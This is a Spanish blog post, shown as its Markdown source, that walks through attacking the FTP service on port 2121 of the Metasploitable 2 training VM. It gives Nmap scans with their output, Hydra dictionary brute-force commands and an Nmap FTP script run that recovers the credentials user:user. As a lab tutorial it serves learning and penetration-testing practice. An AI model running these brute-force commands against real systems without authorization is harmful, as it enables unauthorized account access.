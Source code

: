 ```yaml
---
layout: post
title: Metasploitable 2, el otro FTP del puerto 2121
category: Hacking
comments: true
description: En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

tags:       

    - metasploitable2
    - metasploit
    - nmap
    - hydra
---
```


En otros articulos hable del FTP del puerto 21, pero Nmap nos dice que hay otro FTP puesto en el puerto 2121, en este articulo hablare de como poder vulnerar este servicio, y no sera con un exploit manual o mediante metasploit, sino con fuerza bruta.

Para descargarte [Metasploitable 2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:target="_blank"}

## Los puertos de Metasploitable 2

Como recordaras al explorar la maquina de Metasploitable 2 con Nmap nos daba el siguiente resultado:

{% highlight sql linenos %}

Nmap scan report for 192.168.1.41
Host is up (0.00037s latency).
Not shown: 65501 closed ports
PORT      STATE    SERVICE
21/tcp    open     ftp
22/tcp    open     ssh
23/tcp    open     telnet
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
111/tcp   open     rpcbind
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
512/tcp   open     exec
513/tcp   open     login
514/tcp   open     shell
1099/tcp  open     rmiregistry
1524/tcp  open     ingreslock
2049/tcp  open     nfs
2121/tcp  open     ccproxy-ftp
3306/tcp  open     mysql
3632/tcp  open     distccd
4239/tcp  filtered vrml-multi-use
5432/tcp  open     postgresql
5900/tcp  open     vnc
6000/tcp  open     X11
6667/tcp  open     irc
6697/tcp  open     ircs-u
8009/tcp  open     ajp13
8180/tcp  open     unknown
8787/tcp  open     msgsrvr
27242/tcp filtered unknown
34652/tcp open     unknown
35474/tcp filtered unknown
41271/tcp open     unknown
41542/tcp open     unknown
42726/tcp open     unknown
54399/tcp filtered unknown
MAC Address: 00:0C:29:D3:5F:CD (VMware)

Nmap done: 1 IP address (1 host up) scanned in 185.82 seconds

{% endhighlight %}

## El puerto 2121

Nmap nos pone que en el puerto 2121 hay un servicio de FTP llamado ccproxy-ftp, pero como necesitamos más le pedimos, más informacion con -sV

{% highlight sql linenos %}

nmap -sT -p 2121  -sV  -T5 192.168.1.39

{% endhighlight %}

Y nos devuelve:

{% highlight sql linenos %}

Starting Nmap 7.50 ( https://nmap.org ) at 2017-08-13 13:36 CEST
Nmap scan report for 192.168.1.39
Host is up (0.00060s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

{% endhighlight %}

Nmap nos devuelve que este server es un ProFTPD 1.3.1, si buscamos algun exploit para esta versión, no encontramos ninguno, ni en Metasploit ni en searchsploit, por lo que tendriamos que ver otras opciones.

## Ataque por diccionario

La opción principal seria aqui, haber sacado usuarios del sistema durante la fase de enumeración y con ello poder hacer un ataque de diccionario, para ello usaremos la aplicación Hydra, pre-instalada en Kali Linux.

Para hacer este ataque tenemos tres opciones:

* No saber los usuarios

Esta es la peor, ya que nos toca recorrer dos diccionarios y combinarlos entre ellos, es la opción que más tarda. Recueda Kali tiene diccionarios ya en el sistema, pero eso no te impide crear tu otros diccionarios o descargarte nuevos.

<figure>
<img alt="Hydra funcionando a pleno rendimiento" class="img img-responsive" src="/resources/images/hydra.png"/>
<figcaption>
Hydra funcionando a pleno rendimiento
</figcaption>
</figure>

{% highlight sql linenos %}

hydra -L /usr/share/metasploit-framework/data/wordlists/unix_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121


{% endhighlight %}


Y después de tres horas corriendo con los diccionarios por defecto de Kali.... nada. Seguramente con diccionario hecho a medida hubiese funcionado mejor.

{% highlight sql linenos %}

1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-08-14 10:06:00

{% endhighlight %}

* Saber el usuario, pero no el password

Puede que durante nuestra fase de enumeración, hayamos conseguido nombres de usuario, con ello podemos probar hydra, solo combinando con passwords, es una opción rapida.

{% highlight sql linenos %}

hydra -l user -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

* Combinación de usuarios y passwords por defecto

La mejor opción es tener una lista de usuarios y passwords ya hecha e Hydra probara esas combinaciones por si alguna es valida. En este caso en Hydra tenemos que usar la opción -C usando un fichero con usuarios y passwords separados con : ejemplo: usuario:password

{% highlight sql linenos %}

hydra -C passwords.txt ftp://192.168.1.39:2121

{% endhighlight %}

## Y al final NMAP gana...

Y al final un script simple de Nmap se lleva el gato al agua, simplemente usando un script de Nmap, tenemos ya un usuario de FTP que poder entrar.
Este es el comando que he usado, pidiendo que se ejecuten todos los scripts relacionados con FTP.

{% highlight sql linenos %}

nmap -sT -sV -p 2121 --script ftp* -T5 192.168.1.39

{% endhighlight %}

El resultado

{% highlight sql linenos %}

Nmap scan report for 192.168.1.39
Host is up (0.00025s latency).

PORT     STATE SERVICE VERSION
2121/tcp open  ftp     ProFTPD 1.3.1
| ftp-brute: 
|   Accounts: 
|     user:user - Valid credentials
|_  Statistics: Performed 11296 guesses in 182 seconds, average tps: 75.9
MAC Address: 00:0C:29:D3:5F:CD (VMware)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds


{% endhighlight %}

Es decir, el usuario es user, y el password es user... Ya podemos entrar y tener acceso a un FTP.





